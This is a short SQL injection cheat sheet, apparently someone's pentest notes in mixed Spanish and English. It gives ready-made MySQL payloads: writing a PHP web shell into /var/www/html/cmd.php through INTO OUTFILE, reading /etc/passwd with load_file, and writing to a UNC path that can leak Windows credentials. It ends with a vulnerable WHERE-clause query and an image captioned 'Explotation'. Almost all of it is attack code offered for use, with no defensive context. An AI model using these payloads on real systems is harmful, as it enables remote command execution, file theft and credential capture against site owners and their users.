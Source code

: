 ```sql
select 'test' into OUTFILE '\\\\DOMAIN\a'
```

### Special Functions

- Insert Files

```sql
select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/cmd.php'
```

- Read Files

```sql
select load_file('/etc/passwd')
```

## Inyección SQL en cláusulas WHERE || injection vulnerability in WHERE clause allowing retrieval of hidden data

- Query SQL

```sql
SELECT * FROM products WHERE category = '$INPUT$' AND released = 1
```

- Explotation

![](/img2/Pasted%20image%2020250707130629.png)
